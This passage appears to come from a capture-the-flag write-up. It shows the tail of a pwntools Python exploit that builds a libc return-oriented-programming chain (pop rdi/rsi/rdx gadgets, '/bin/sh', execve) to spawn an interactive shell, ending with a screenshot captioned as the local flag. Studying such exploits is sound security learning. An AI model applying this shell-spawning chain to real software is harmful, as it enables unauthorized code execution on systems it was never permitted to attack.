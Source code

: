 ```python
p.send(payload) # overwrites reg[1]

pause()

# 0x000000000002a3e5 : pop rdi ; ret
# 0x000000000002be51 : pop rsi ; ret
# 0x00000000000904a9 : pop rdx ; pop rbx ; ret

pop_rdi = libc.address + 0x000000000002a3e5
pop_rsi = libc.address + 0x000000000002be51
pop_rdx_rbx = libc.address + 0x00000000000904a9
binsh = next(libc.search(b'/bin/sh'))

payload = p64(pop_rdi)
payload += p64(binsh)
payload += p64(pop_rsi)
payload += p64(0)
payload += p64(pop_rdx_rbx)
payload += p64(0)
payload += p64(0)
payload += p64(libc.sym['execve'])
p.send(payload)


p.interactive()
p.close()
```
{% endtab %}
{% endtabs %}

<figure><img src="../../.gitbook/assets/image (9) (1).png" alt=""><figcaption><p>local flag :')</p></figcaption></figure>
